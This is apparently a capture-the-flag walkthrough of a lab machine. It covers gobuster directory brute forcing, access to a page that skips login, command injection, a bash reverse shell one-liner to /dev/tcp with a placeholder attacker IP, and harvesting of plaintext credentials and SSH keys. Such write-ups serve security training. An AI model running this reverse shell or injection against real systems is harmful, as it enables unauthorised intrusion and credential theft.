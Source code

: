 ![image](https://user-images.githubusercontent.com/78603128/119040663-43719300-b9e8-11eb-93b9-9084d21a8b85.png)

First , we slap the ip into our browser to check if port 80(common web server) is up and yes it is !

![image](https://user-images.githubusercontent.com/78603128/119142345-fa1d5400-ba78-11eb-97a9-5e0b27c4618e.png)

look like a credential is required

lets try <a href="https://tools.kali.org/web-applications/gobuster">gobuster(CLI)/dirbuster(GUI)</a> to brute force the web directory for hidden files
![image](https://user-images.githubusercontent.com/78603128/119142807-7879f600-ba79-11eb-8cc8-0236aca6441f.png)
(Note : <br/>
dir specify brute force the directory <br/>
-u specify the web browser url<br/>
-w specify the dictionary path for the attack<br/>
-t specify how many thread to be used for the attack<br/> 
-o specify output file name)<br/>

and we found the hidden directory named :

"home.php" 

![image](https://user-images.githubusercontent.com/78603128/119143134-d8709c80-ba79-11eb-85fb-d91fe7fb960f.png)

guess what ? who need credentials when you can access the page without one ?

"validate.php" , Look like incorrect credentials goes here

![image](https://user-images.githubusercontent.com/78603128/119142989-b37c2980-ba79-11eb-82ae-a0ab52a03f25.png)

Moving on , we can check if the machine is linux by using  "uname -a" command

![image](https://user-images.githubusercontent.com/78603128/119144800-98121e00-ba7b-11eb-87be-10057beb2d04.png)

and yess , now slap reverse shell command into the input <br/>
![image](https://user-images.githubusercontent.com/78603128/119146838-9cd7d180-ba7d-11eb-8f00-ffd68cb68676.png)

```
 bash -c 'exec bash -i &>/dev/tcp/$YOUR IP/$PORT <&1'
 
```
<br/>
remember to start a listener on the port you input
<br/>
<br/>

And within few seconds , we will get a reverse shell and able to run as "www-data" !
<br/>

![image](https://user-images.githubusercontent.com/78603128/119147026-cabd1600-ba7d-11eb-88cc-a69eadb0ac62.png)

<br/>
now we search for the key , key_rey_key seems sus and by trying strings command we found the key
<br/>

![image](https://user-images.githubusercontent.com/78603128/119148594-38b60d00-ba7f-11eb-8a24-17a264bc10d0.png)

<br/>
and we are lucky to found the user credentials in plain text inside the "validate.php" code
<br/>

![image](https://user-images.githubusercontent.com/78603128/119148927-92b6d280-ba7f-11eb-8a86-b8d60f193eff.png)

switch user to charlie and we got the flag , oh yeah.. you cant switch user here..
<br/>

![image](https://user-images.githubusercontent.com/78603128/119149250-ede8c500-ba7f-11eb-94b8-21823441721b.png)

looking around charlie directory , we found RSA private and public key to login via SSH !
<br/>

![image](https://user-images.githubusercontent.com/78603128/119149549-36a07e00-ba80-11eb-9cd8-c3f5e9b77a83.png)






